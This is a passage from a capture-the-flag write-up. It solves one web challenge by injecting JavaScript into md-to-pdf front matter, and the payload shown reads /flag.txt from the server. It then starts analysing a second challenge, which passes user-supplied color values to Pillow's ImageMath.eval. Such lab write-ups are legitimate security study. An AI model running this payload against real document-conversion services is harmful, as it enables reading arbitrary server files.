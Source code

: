 ```
```

[https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

That issue already shows the payload, We could make use of that to implement it to this challenge.

We tweaked the payload little bit and we managed to get the **FLAG**

```markdown
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').toString()}"; display: block }`,
}
---
```

![](blinker-3.png)

**HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}**


### Amidst Us (300 points)

The value of this challenge is 300 points and +500 players have solved this challenge.

![](amidst-1.png)

We're given a website with a feature for changing the color of the uploaded image.

![](amidst-2.png)

In this challenge, the author gives us a source code, We could make use of this for analyzing the source code.

Same with before, we checked out the _dependency_ first and find out the application uses an obsolete `Pillow` version. In this version, we could find an issue on GitHub.

[https://github.com/python-pillow/Pillow/pull/5923](https://github.com/python-pillow/Pillow/pull/5923)

And in the _source code_ `challenge/application/util.py#L:16`, the parameter coior is passed into `ImageMath.eval()` function.

```python
alpha = ImageMath.eval(
            f'''float(
                max(
                max(
                    max(
                    difference1(red_band, {color[0]}),
                    difference1(green_band, {color[1]})
                    ),
                    difference1(blue_band, {color[2]})
                ),
                max(
                    max(
                    difference2(red_band, {color[0]}),
                    difference2(green_band, {color[1]})
                    ),
                    difference2(blue_band, {color[2]})
                )
                )
            )''',
            difference1=lambda source, color: (source - color) / (255.0 - color),
            difference2=lambda source, color: (color - source) / color,
            red_band=img_bands[0],
            green_band=img_bands[1],
```